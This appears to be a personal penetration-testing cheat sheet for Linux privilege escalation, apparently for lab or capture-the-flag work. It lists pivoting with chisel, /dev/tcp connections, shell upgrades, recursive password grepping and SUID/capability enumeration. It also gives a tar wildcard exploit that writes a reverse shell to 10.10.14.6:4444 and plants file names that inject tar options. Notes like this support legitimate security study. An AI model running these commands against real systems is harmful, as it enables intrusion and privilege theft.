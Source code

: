 - always check the `$PATH` value!
- some [check list](https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md)
- Siren's [notes](https://sirensecurity.io/blog/linux-privilege-escalation-resources/)
- restricted shell bypass [hacktricks](https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/) , [exploit-db](https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf)
```bash
## General notes
# List systemd timers
systemctl list-timers
# port binding using ssh | localPort:socket:remotePort
ssh -L 4444:127.0.0.1:8080 soraka@172.17.0.2
# -- pivoting --
chisel server -p 3477 --socks5 --reverse
chisel client 10.10.10.10:3477 R:5000:socks
# file transfer using /dev/tcp
exec 3<>/dev/tcp/www.google.com/80
echo -e "GET / HTTP/1.1\r\nhost: http://www.google.com\r\nConnection: close\r\n\r\n" >&3
cat <&3
## 
exec 3<>/dev/tcp/$host/4444
cat <&3

```
##### upgrade shell
```bash
python3 -c "import pty; pty.spawn('/bin/bash')" || python -c "import pty; pty.spawn('/bin/bash')" || script -qc /bin/bash /dev/null
# Ctrl+Z
stty raw -echo;fg ; reset
stty columns 200 rows 200

```
##### exports
```bash

export TERM=linux
export TERM=xterm-256color
stty columns 156 rows 40
alias l='ls -lav --ignore=.?*'
alias la='ls -lav --color=auto'
alias ll='ls -lav --ignore=..'
alias ls='ls --color=auto'
alias ll='ls -lsaht --color=auto'
cd(){ pwd; builtin cd "$@"; pwd; ls -F; }
shopt -s autocd
function cd(){
    builtin cd "$@" && ls
}
chpwd() ls
chr() {
  printf \\$(printf '%03o' $1)
}

ord() {
  printf '%d' "'$1"
}



export PATH="/usr/local/sbin:/usr/local/bin:/usr/bin:/bin:$PATH"

```

###### container enumerate
```bash
grep 'docker\|lxc' /proc/1/cgroup
mount  # show filesystem mount
df   # filesystem usage
```
##### manual enumeration
```bash
# network socket
ss -lntp # -n don't resolve service name
ss -ltp
# grep recursive 
grep -i -R password .
# find for files/folders owned by a user
find / -user soraka 2>/dev/null
# read secondary permissions
lsattr
# find suid/guid
find / -perm -4000 -type f ! -path "/dev/*" 2>/dev/null
find / -perm -2000 -type f ! -path "/dev/*" 2>/dev/null
find / -user root -perm -4000 -exec ls -la {} \; 2> dev/null
find / -perm /6000 2>/dev/null
# get caps
getcap -r / 2>/dev/null | head -n 50 
```
- uniqe exploitations
```bash
# tar wildcard
echo "bash -i >& /dev/tcp/10.10.14.6/4444 0>&1" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > "--checkpoint=1"
```
ruby [priv esc](https://ihsansencan.github.io/privilege-escalation/linux/binaries/ruby.html)
##### kernels archives:
- [alpine](https://dl-cdn.alpinelinux.org/alpine/) linux archive
- [voidlinux](https://repo-default.voidlinux.org/live/) archive
- [nixos](https://releases.nixos.org/)


folders to check
```bash
/tmp/
/dev/shm/
/home/
/opt/
/etc/
/var/mail/
/var/www/
/


```
files to check
```bash
/etc/fstab
```